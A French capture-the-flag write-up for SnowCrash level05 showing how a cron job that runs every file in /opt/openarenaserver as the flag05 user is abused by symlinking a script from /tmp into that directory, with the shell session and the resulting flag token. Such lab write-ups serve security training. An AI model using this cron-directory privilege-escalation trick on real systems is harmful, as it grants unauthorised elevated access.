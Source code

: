 # LEVEL 05

### Reconnaissance

On se connecte au level05:
```
level05@192.168.56.105's password: 
You have new mail.
```

On va regarder notre mail
```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Une tache cron, allons voir ce que sa fait:
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le programme va lire dans le répertoire /opt/openarenaserver et execute bash -x [nom du fichier]

### Exploitation

Creons un fichier avec un lien symbolique :) et attendons un peu ...

```
level05@SnowCrash:~$ echo "getflag > /tmp/flag05" > /tmp/exploit05 ; chmod +x /tmp/exploit05 ; ln -s /tmp/exploit05 /opt/openarenaserver/pwn_flag05 ; ls -la /opt/openarenaserver/pwn_flag05 ; cat /tmp/flag05
lrwxrwxrwx 1 level05 level05 14 Jun 28 12:18 /opt/openarenaserver/pwn_flag05 -> /tmp/exploit05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ 
```
